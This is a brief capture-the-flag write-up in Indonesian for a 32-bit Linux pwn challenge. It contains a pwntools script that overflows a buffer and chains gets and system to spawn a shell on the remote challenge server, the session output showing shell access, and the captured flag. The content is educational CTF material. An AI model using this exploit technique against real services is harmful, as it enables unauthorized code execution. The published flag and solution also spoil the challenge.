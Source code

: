 Mimin ada survey sederhana nih :D. Silahkan dicoba dibawah ini :)).

```
nc 103.157.96.13 7782
```
Download : https://mega.nz/#!glBlVCAR!XsIK_h79HyorPPvb07DriVKf8t3yth5pO1gvzKZdi-Q

```python
from pwn import *

context.update(arch='i386', os='linux')

#p = process('./chal17')

p = remote('103.157.96.13', 7782)

p.recvuntil("Ketik nama ikan yang anda sukai: ")

target = 0x804d1a0
gets = 0x08049040
system = 0x08049070

exploit = "A" * 68 + p32(gets) + p32(system) + p32(target) + p32(target)

p.sendline(exploit)
p.sendline("/bin/sh")
p.interactive()
```

```bash
ython2 solve.py
[+] Opening connection to 103.157.96.13 on port 7782: Done
[*] Switching to interactive mode
Wah ikan AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@\x90\x04p\x90\x04\xa0\xa0 yang bagus. Terima kasih sudah mengisi survey kami
$ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ ls
chal17
flag
$ cat flag
CTFR{t4k3_c4r3_full_w1th_5yst3m_funct10n}
```

Flag

```
CTFR{t4k3_c4r3_full_w1th_5yst3m_funct10n}
```